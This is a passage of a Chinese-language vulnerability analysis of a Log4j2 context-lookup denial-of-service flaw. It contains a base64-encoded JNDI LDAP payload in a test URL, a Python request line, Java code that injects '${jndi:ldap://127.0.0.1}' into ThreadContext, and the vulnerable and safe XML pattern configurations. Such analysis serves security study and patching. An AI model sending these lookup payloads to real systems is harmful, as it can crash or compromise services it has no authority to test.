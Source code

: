 ```
2021-12-15 12:51:27,845 [http-nio-8080-exec-1] 1 user login
```

如果打`Payload`则报错并成功阻塞

```
http://localhost:8080/test?userId=JHtqbmRpOmxkYXA6Ly8xMjcuMC4wLjF9
```

改写下`Python`脚本即可成功拒绝服务

```python
url = "http://127.0.0.1:8080/test?userId=" + str(payload, encoding="utf-8")
```



**CVE分析**

在`Log4j2.xml`中支持一种配置从上下文中取值：例如这个例子可以取到`loginId`值

```XML
<Appenders>
    <Console name="STDOUT" target="SYSTEM_OUT">
        <PatternLayout>
            <pattern>%d %p %c{1.} [%t] $${ctx:loginId} %m%n</pattern>
        </PatternLayout>
    </Console>
</Appenders>
```

如果程序这样写

```java
public static void main(String[] args) throws Exception{
    ThreadContext.put("loginId","1}");
    logger.error("xxx");
}
```

将会打印

```
2021-12-15 12:03:53,860 ERROR Main [main] 1 xxx
```

如果代码这样写将会导致类似的拒绝服务

```java
ThreadContext.put("loginId","${jndi:ldap://127.0.0.1}");
logger.error("xxx");
```

在`xml`中有另一种效果相同的配置方式，但这种写法反而不会触发`${}`解析

```xml
<Appenders>
    <Console name="STDOUT" target="SYSTEM_OUT">
        <PatternLayout>
            <pattern>%d %p %c{1.} [%t] %X{loginId} %m%n</pattern>
        </PatternLayout>
    </Console>
</Appenders>
```
